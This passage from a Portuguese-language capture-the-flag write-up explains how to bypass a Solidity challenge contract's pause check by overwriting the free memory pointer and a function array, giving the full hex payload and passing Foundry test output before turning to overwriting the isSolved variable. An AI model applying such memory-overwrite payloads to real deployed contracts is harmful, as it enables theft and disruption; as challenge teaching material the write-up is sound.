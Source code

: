 ![Pausable.sol](/images/ottoboni-sekai-zoo/jump.png)

Finalmente,
podemos montar nosso payload pra bypassar o `whenNotPaused`.
- `0x20` (1 byte), pra editar um animal.
- `0x07` (1 byte), pra escolher o último índice (poderia ser qualquer um).
- `0x21` (1 byte), pra escolher o `edit_type`.
- `0x80` (2 bytes), porque vamos escrever 128 bytes.
- `0xffff` (32 bytes), pra sobrescrever o free memory pointer.
- `0x00` (32 bytes), pra sobrescrever o endereço que sempre tem zeros.
- `0x01` (32 bytes), pra sobrescrever o tamanho do array functions.
- `0x0323` (32 bytes), que é o endereço pra onde queremos pular.

Payload: `2007210080000000000000000000000000000000000000000000000000000000000000ffff000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000010000000000000000000000000000000000000000000000000000000000000323`

Depois de atualizar o contrato teste
com esse payload e rodar o teste,
vemos que agora não temos mais o erro dizendo que o contrato tá pausado.
```
$ forge test -vv

[⠊] Compiling...
[⠊] Compiling 1 files with Solc 0.8.25
[⠒] Solc 0.8.25 finished in 931.41ms
Compiler run successful!

Ran 1 test for test/ZOO.t.sol:ZOOTest
[PASS] test_bypass_pause() (gas: 12362)
Logs:
  Fail

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 9.39ms (8.61ms CPU time)

Ran 1 test suite in 9.84ms (9.39ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

Com o debugger,
também é possível verificar que o valor foi sobrescrito
e que agora o contrato está entrando na função `commit`.

![Array functions sobrescrito](/images/ottoboni-sekai-zoo/overwritten.png)

# Objetivo final = sstore(1,1)

Ótimo,
conseguimos com sucesso bypassar o `WhenNotPaused`.
E agora?
Agora a gente tem que descobrir
uma forma de sobrescrever a variável `isSolved`.
Pra isso, vamos revisar como ela foi declarada primeiro:
```
contract ZOO is Pausable {
    uint256 public isSolved;
    <snip>
}
```
